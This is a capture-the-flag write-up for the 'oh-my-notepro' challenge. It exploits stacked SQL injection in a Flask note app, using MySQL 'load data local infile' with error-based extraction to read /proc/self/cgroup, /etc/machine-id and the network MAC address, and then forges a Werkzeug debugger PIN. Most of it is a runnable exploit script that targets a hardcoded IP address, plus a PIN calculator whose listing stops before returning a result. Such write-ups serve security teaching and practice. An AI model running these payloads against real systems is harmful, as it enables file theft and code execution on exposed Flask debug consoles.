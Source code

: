 # oh-my-notepro-EN

After opening the website and completing the login, it is found that it is a note recording board. Each login user can send a note to their account. After trying to access the abnormal URL, we will find the flask debug information. It intuitively feels that it is a challenge about PIN code. First, we have to find LFI.

Visit route `/view`, debug code is

```
result = db.session.execute(sql, params={"multi":True})
```

It can be seen that there is a possibility of Stack Injection here. It is speculated that MySQL stack injection can read the file and use the error return the  the local file content. We can use `load_file` to read to `/etc/passwd`. However, when trying to read the file name information required by forging the PIN code, it is found that the file content cannot be read. Because `load_file` can't successfully read some files involving system information. Instead, `load data infile` can do it. But we still can't construct the correct PIN. There are two reasons:

* MySQL service and Web service belong to two different containers. Using `load data infile` to read the file information of MySQL container, which is not the running environment information of Web service. Therefore, `load data local infile` should be used to read the file information of Web service to construct PIN code. Refer to POC as follows

```
view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));
```

* Through reading the source code, we can see that the update of Werkzeug has brought changes to the calculation method of PIN code` https://github.com/pallets/werkzeug/commit/617309a7c317ae1ade428de48f5bc4a906c2950f `, using most of the online PIN code calculation methods directly can not calculate the correct PIN code in the current environment. There are two main changes. One is to read `/proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id` these three files, read the contents of one file and return directly. The new version is from `/etc/machine-id、/proc/sys/kernel/random/boot_id`, and then add it with the value in `/proc/self/cgroup`, and use the spliced value to calculate the PIN code; The second change is that the calculation of `h` changes from MD5 to SHA1, so the POC for calculating the pin code also needs to be adjusted accordingly. In addition, after entering the correct PIN code, there is a high probability of 404 and other errors. This problem can be solved by cleaning the website cache and then starting a new traceless session.

The reference POC is as follows:

```
# exp.py

import requests
import re
import string
import random
from pin import solve

def get_content(file, regexp):
    ans = ''
    z = 1
    while True:
        try:
            tmp_database = get_random_id()
            path = f"view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));"
            view_url = base_url + path
            r = s.get(url=view_url)
            content = re.findall("'~(.*?)'", r.text)[0]
            if content[0] == '~':
                break
            ans += content[:-1]
            if content[-1] != '~':
                break
            z += 20
            print(ans)
            
        except Exception as e:
            print(e)
            break
    k = re.findall(regexp, ans)[0]
    print('k is: ', k)
    return k

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

base_url = 'http://localhost:5002/'
base_url = 'http://124.223.208.221:5002/'
s = requests.session()

login_data = {
    'username': "veererere",
    'password': "fefefef"
}
proxies = {
    'http': 'http://127.0.0.1:8080'
}
login_url = base_url + 'login'
r = s.post(url=login_url, data=login_data, proxies=proxies)

cgroup = get_content('/proc/self/cgroup', 'docker/(.*?),')
machine_id = get_content('/etc/machine-id', '(.*)')
eth0 = get_content('/sys/class/net/eth0/address', '(.*)')

eth0 = str(int(eth0.replace(':',''),16))

print("eth0 is: ", eth0)
print("machine_id is: ", machine_id)
print("cgroup is: ", cgroup)
solve('ctf', eth0, machine_id, cgroup)

```

```
# pin.py

import hashlib
from itertools import chain

def solve(username, eth0, machine_id, cgroup):
    probably_public_bits = [
    username,# username ok
    'flask.app', # ok
    'Flask' #ok,
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # ok
]

    private_bits = [
        eth0,# /sys/class/net/eth0/address
        machine_id + cgroup
        # '7cb84391-1303-4564-8eff-ef7571804198327e92627edf30f63fde916e3c3017aea76eeb876265a726270a575d391eeb4a'# machine-id
        # /etc/machine-id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
```

